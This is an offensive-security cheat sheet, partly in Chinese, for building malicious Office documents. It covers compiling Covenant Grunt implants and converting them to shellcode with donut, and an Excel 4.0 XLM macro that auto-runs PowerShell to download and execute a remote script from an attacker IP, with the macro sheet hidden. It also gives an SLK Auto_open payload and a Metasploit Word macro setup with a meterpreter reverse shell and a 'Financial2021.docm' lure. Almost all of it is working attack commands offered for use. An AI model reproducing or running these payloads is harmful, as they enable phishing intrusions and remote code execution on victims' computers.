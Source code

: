 ```ps1
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -platform:x86 -out:GruntHttpX86.exe C:\Users\User\Desktop\covenSource.cs
donut.exe -a1 -o GruntHttpx86.bin GruntHttpX86.exe
donut.exe -a2 -o GruntHttpx64.bin GruntHttpX64.exe
用法：drive.py [-h] --x64bin X64BIN --x86bin X86BIN [-o OUTPUTFILE] [--sandbox] [--obfuscate]
python3 drive.py --x64bin GruntHttpx64.bin --x86bin GruntHttpx86.bin
```

[XLM相关链接](https://github.com/Synzack/synzack.github.io/blob/3dd471d4f15db9e82c20e2f1391a7a598b456855/_posts/2020-05-25-Weaponizing-28-Year-Old-XLM-Macros.md)

# XLM Excel 4.0 - EXEC

1. 右键点击当前工作表

2. 插入**宏IntL MS Excel 4.0**

3. 添加`EXEC`宏

   ```powershell
   =EXEC("poWerShell IEX(nEw-oBject nEt.webclient).DownloAdStRiNg('http://10.10.10.10:80/update.ps1')")
   =halt()
   ```

4. 将单元格重命名为**Auto_open**

5. 通过右键点击工作表名称**Macro1**并选择**隐藏**来隐藏宏工作表

# SLK - EXEC

```ps1
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

# Word

## DOCM - Metasploit

```ps1
use exploit/multi/fileformat/office_word_macro
set payload windows/meterpreter/reverse_http
set LHOST 10.10.10.10
set LPORT 80
set DisablePayloadHandler True
set PrependMigrate True
set FILENAME Financial2021.docm
exploit -j
```
